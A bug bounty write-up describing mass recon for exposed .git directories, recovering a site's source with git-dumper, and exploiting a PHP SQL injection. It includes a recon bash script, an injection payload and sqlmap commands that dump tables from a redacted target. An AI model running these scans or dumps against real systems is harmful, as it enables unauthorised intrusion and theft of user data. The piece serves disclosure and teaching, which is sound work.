




**Dislaimer**: This write up is from a private bug bounty program where I participated.
I have been given permission to share it in a redacted version.



## Mass scanning

Everything started from a simple `Bash` script. I was doing basic recon
for many targets (private and public) at the time where I was specifically hunting for an
exposed `.git` folder. Why? Because usually these are left unintentionally exposed
and they hold a lot of juicy information like source code and all kinds of secrets.

```bash
#!/bin/bash
api_key='chaos-api-key'
resolver_file='resolvers.txt'

root_dir=`pwd`
domains_file='domains-final.txt'
subs_to_exclude='out-of-scope-final.txt'

mkdir -p results

exec 3< "$domains_file"

# Use a while loop to read each domain
while IFS= read -r domain <&3; do
    mkdir results/$domain
    cd results/$domain
    touch $domain.subdomains

    echo "[+] Hunting on $domain"
    # get subdomains
    chaos -silent -key $api_key -d $domain | anew $domain.subdomains > /dev/null
    subfinder -d $domain -all -silent | anew $domain.subdomains > /dev/null

    puredns resolve $domain.subdomains -q -r \
      $root_dir/$resolver_file -w $domain.resolved > /dev/null

    # exlude out of scope
    grep -vxFf $root_dir/$subs_to_exclude $domain.resolved > $domain.final

    #get ips from subdomains
    dnsx -l $domain.final -r $root_dir/$resolver_file -json -o $domain-dnsx.json -silent > /dev/null

    # parse them out
    cat $domain-dnsx.json | jq -r '.a?[]?' | anew $domain.hosts > /dev/null

    # scan for web servers
    nmap -T2 -iL $domain.hosts -p 80,443,8080,8443 -oA $domain-nmap > /dev/null

    # 1. convert to ip:port notation (and remove unwanted vhosts)
    # 2. probe server
    tew -x $domain-nmap.xml -dnsx $domain-dnsx.json --vhost | httpx -rl 1 -silent -H 'X-Bug-Bounty:username' \
    -o $domain-httpx > /dev/null
    # 3. fuzz for .git or .svn directories
    cat $domain-httpx | nuclei -rl 1 -H 'X-Bug-Bounty:username' -t  http/exposures/logs/git-exposure.yaml\
    -t http/exposures/logs/git-logs-exposure.yaml -t http/exposures/configs/exposed-svn.yaml -o nuclei-results -silent

    cd $root_dir
    echo $domain >> domains-solved.txt

done

# close the file
exec 3<&-
```

This `Bash` script is what I used to do basic enumeration. It uses primarily tools from [Project discovery](https://github.com/projectdiscovery). The basic workflow is as follows:


flowchart TD
A(Get sbudomains) -->|subfinder| B(Resolve subdomains)
A(Get sbudomains) -->|chaos| B(Resolve subdomains)
B --> |puredns| C(Remove out of scope)
C --> |grep| D(Get IPs)
D --> |dnsx| E(Scan for servers)
E --> |nmap| F(Probe if they're alive)
F --> |httpx| G(Fuzz with Nuclei)


At the end we use [Nuclei](https://github.com/projectdiscovery/nuclei) with templates to scan for
exposed `.git`, `git logs` and `.svn` directories.

## What is a .git directory?

The `.git/` directory is a hidden directory that is at the core of Git.  
Git needs it to track changes and store your codebase as a series of snapshots.  
It is created when we run <kbd>`git init`</kbd> or when we clone a repository with <kbd>`git clone`</kbd>.
It contains all the metadata, commit history, and actual file contents tracked by Git.

### Structure of .git/

```bash
.git/
├── config           # Repo configuration
├── HEAD             # Points to current branch
├── objects/         # All data objects (commits, files, dirs)
│   └── [sha1 split] # Stored using hashed names
├── refs/            # Branches and tags
└── index            # Staging area
```

Here's a breakdown of the key components and why each one matters.

1. <kbd>`objects/`</kbd> – Git’s Database of Everything

This folder stores all content and history in the form of Git objects: blobs (file contents), trees (directory structures),
and commits (snapshots). Each object is saved using a SHA-1 hash and split into subdirectories single folder. 
If this directory is leaked, it’s possible to reconstruct the entire project, even deleted files.

2. <kbd>`refs/`</kbd>  – Pointers to Commits

Git uses this folder to store references such as branches and tags, which point to specific commit hashes.
These help Git determine what the “main” branch is or where version tags point.

3. <kbd>`HEAD`</kbd> – The Currently Checked-Out Branch

This file tells Git which branch is currently active in the working directory. 

4. <kbd>`config`</kbd> config – Repository Configuration

This is the local Git config file for the specific repository.
It stores settings like user identity, remote URLs, push/pull preferences, and more.

5. <kbd>`index`</kbd> – The Staging Area

Also known as the Git cache, this file tracks the state of files that have been staged using git add, but not yet committed.
Git uses it to decide what goes into the next commit.

6. <kbd>`logs/`</kbd> – History of Git Actions

This folder contains logs of branch updates and checkouts. 
If a commit is accidentally deleted or a branch is messed up, these logs can help recover lost work.

### Exploiting

Once we find an exposed directory then we can manually or with a tool like <kbd>`wget`</kbd>
download all the files and try to reconstruct it by hand using <kbd>`git cat-file -p blob-hash`</kbd>.
This can be really impractical for a large number of files so we can use a tool like [git-dumper](https://github.com/arthaud/git-dumper) 
which is a tool that automates this process and leaves us with the files.

## My bug report

So when my `Bash` script produced a result I used <kbd>`git-dumper`</kbd> to fetch all the files:

```bash
$ git-dumper http://target.com/.git output-directory
```


And here was the source code of the site that was hosting the exposed `.git/` folder.
After this I ran [Trufflehog](https://github.com/trufflesecurity/trufflehog) to find any secrets.
I used this tool because it also searches for secrets in commit history beside just in the files:

```bash
$ trufflehog git file://output-directory
```

It didn't produce any results so I went on to do some analysis of the source code.

### Source code analysis

We can see the site is using PHP. 
After exploring for a bit I found out the service used a `MySQL` database.
Reading the source code lead me to functions like this.



Immediately all alarms should be going off. This function is not using
[prepared statements](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php) which
are probably the "only" but definitely the best and most elegant way to prevents `SQL injection` attacks.


So now if we can control the variable `$idCategory` we can inject our own SQL code and leak the database.


Even tho the image is redacted and it can't be clearly seen there is no input sanitization of the 
`$idCategory` variable which is being passed through a `GET` parameter. 
In the next line there is the `filter_var()` function that is being used but not on this parameter.

### Exploiting the SQL Injection

So we control this variable and we can inject SQL statements. First we can try with a simple `'`.


This is a really good signal and we have the source code to back it up.

Next I tried to construct a valid query `https://target.com/redacted-endpoint.php?idCategoria=11' OR '1'='1`.
This produced no error and if we change the last `1` to a `2` we get the error again which means we can 
easily inject our own SQL statements.

To exploit it I used an automated tool called [sqlmap](https://sqlmap.org/). It is very easy to use and
automates the process of exploiting the `SQL injection` and dumping the tables and it's contents.

```bash
sqlmap -u "https://target.com/redacted-endpoint.php?idCategoria=11" --dbms=mysql --cookie="redacted-cookie" --delay=1 -p 'idCategoria'
```

Flag description:

* -u is the vulnerable URL

* --dbms==mysql is the database being used in this case MySQL

* --cookie="redacted-cookie" is the cookie which we can get after logging in

* --delay=1 is the delay between each request so to not generate too much traffic

* -p 'idCategoria' is the vulnerable parameter


As we can see the results show us this parameter is vulnerable to different types of `SQL injections`.
After this I just dumped the tables to show impact in my report.

```bash
sqlmap -u "https://target.com/redacted-endpoint.php?idCategoria=11" --dbms=mysql --cookie="redacted-cookie" --delay=1 -p 'idCategoria' -D redacted-db --tables
```


Flag description:

* -D redacted-db is the database we want to select
* --tables dumps the tables



So now I had access to the whole database of the website. This included access to administrator
accounts and their password hashes which I would have to crack and the most importantly all their
user information including sensitive [PII](https://www.security.org/identity-theft/what-is-pii/).

## Epilogue

I ended up finding even more `SQL injections` vulnerabilities as they weren't using prepared statements in most of
their queries. Now days these type of easily exploited attacks are rare because everybody has learned to use
the libraries that prevent this but they are still out there as we can see.
I reported all these vulnerabilities and was awarded a nice bounty.

I hope you enjoyed this writeup and have a nice day.

